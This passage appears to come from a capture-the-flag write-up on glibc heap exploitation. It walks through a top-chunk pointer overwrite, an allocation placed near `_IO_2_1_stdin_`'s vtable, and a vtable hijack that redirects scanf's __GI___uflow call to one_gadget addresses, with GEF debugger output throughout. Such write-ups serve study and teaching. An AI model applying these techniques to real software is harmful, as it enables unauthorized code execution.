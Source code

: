 
Now, we've already overwritten `top` ptr, and `malloc` will return our desired address at next 16 bytes. **Before that**, remember that we still have a freed smallbin with size of 0x80 in unsorted bin (which acts as last remainder chunk).
```
gef> heap bins unsorted
---- Unsorted Bin for arena 'main_arena' ----
[+] unsorted_bins[0]: fw=0x563b4f62f030, bk=0x563b4f62f030
->  Chunk(addr=0x563b4f62f040, size=0x90, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
```
Allocate a 0x40 size chunk, and next 0x40 chunk allocation will return our desired address from `top` (since last remainder chunk can't serve our request). Next and final part is quite frustrating, since I can hardly find any suitable place to land a chunk with. In the end, I chose to allocate a chunk near `_IO_2_1_stdin_`'s vtable, and overwrite it with heap ptr (also filling heap chunks with `one_gadget`s), next `scanf` will call `\_\_GI\_\_\_uflow`, which will call \[vtable+0x28\], calling `one_gadget`.
```
gef> tel $6
0x00007f883fa2d988|+0x0000: 0x0000000000000000 -> allocated chunk
0x00007f883fa2d990|+0x0008: 0x0000000000000000
0x00007f883fa2d998|+0x0010: 0x0000000000000000
0x00007f883fa2d9a0|+0x0018: 0x00000000ffffffff
0x00007f883fa2d9a8|+0x0020: 0x0000000000000000
0x00007f883fa2d9b0|+0x0028: 0x0000000000000000
0x00007f883fa2d9b8|+0x0030: 0x0000563b4f62f0d0 -> vtable

gef> tel 0x0000563b4f62f0c0 24
0x0000563b4f62f0c0|+0x0000: 0x0000000000000040 ("@"?)
0x0000563b4f62f0c8|+0x0008: 0x0000000000000050 ("P"?)
0x0000563b4f62f0d0|+0x0010: 0x00007f883f75a147 -> <exec_comm+2263> mov rax, QWORD PTR [rip+0x2d2d6a]
0x0000563b4f62f0d8|+0x0018: 0x00007f883f75a147 -> <exec_comm+2263> mov rax, QWORD PTR [rip+0x2d2d6a]
0x0000563b4f62f0e0|+0x0020: 0x00007f883f75a147 -> <exec_comm+2263> mov rax, QWORD PTR [rip+0x2d2d6a]
0x0000563b4f62f0e8|+0x0028: 0x00007f883f75a147 -> <exec_comm+2263> mov rax, QWORD PTR [rip+0x2d2d6a]
0x0000563b4f62f0f0|+0x0030: 0x00007f883f75a147 -> <exec_comm+2263> mov rax, QWORD PTR [rip+0x2d2d6a]
...

gef> bt
#0  __GI___uflow
#1  0x00007f883f6c5260 in _IO_vfscanf_internal
#2  0x00007f883f6d45df in __isoc99_scanf
...
gef> x/2i $rip      
=> 0x7f883f6e43f3 <__GI___uflow+83>:    mov    rax,QWORD PTR [rax+0x28]
   0x7f883f6e43f7 <__GI___uflow+87>:    jmp    rax
gef> tel $rax+0x28 1
0x0000563b4f62f0f8|+0x0000: 0x00007f883f75a147 -> <exec_comm+2263> mov rax, QWORD PTR [rip+0x2d2d6a]
```
